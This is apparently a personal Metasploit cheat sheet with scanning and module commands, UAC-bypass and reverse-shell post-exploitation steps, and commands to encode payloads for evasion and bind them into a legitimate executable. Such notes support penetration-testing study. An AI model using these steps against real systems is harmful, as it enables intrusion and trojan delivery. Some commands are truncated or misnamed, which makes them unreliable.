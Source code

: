 # Metasploit
- https://www.andreafortuna.org/2017/12/11/metasploit-console-my-own-cheatsheet/
- https://www.offensive-security.com/metasploit-unleashed/Pivoting/
- https://www.offensive-security.com/metasploit-unleashed/Portfwd/
- https://www.offensive-security.com/metasploit-unleashed/proxytunnels/

## General Commands:
```
show auxilary
search snmp
use snmp_enum
info
show options
set RHOS ip
run
```
```
setg RHOST ip (global set)
```

### Hosts:
```
db_nmap ip-range --top-ports 20 (to populate database)
```

### Search Services:
```
services -p 443 (search all machines with 443 open)
```

### Modifying exploit:
```
~/.msf4/modules/exploits/windows/misc/vulnserver.rb
```

### Post exploitation
- exploit/windows/local/bypassuac
- set payload to reverse-shell  (so that a new session will be created)
- migrate to a system privileged process

### Encode
```
msfpayload ............ | msfconsole -e x86/shikata_ga_nai -t exe -c 9 -o exe.exe
```

### Binding
```
msfpayload ............ | msfconsole -e x86/shikata_ga_nai -t exe -c 9 -x goodexe.exe -o bound.exe
```

### Auto Migrate
```
set AutoRunScript post/windows/manage/migrate
```
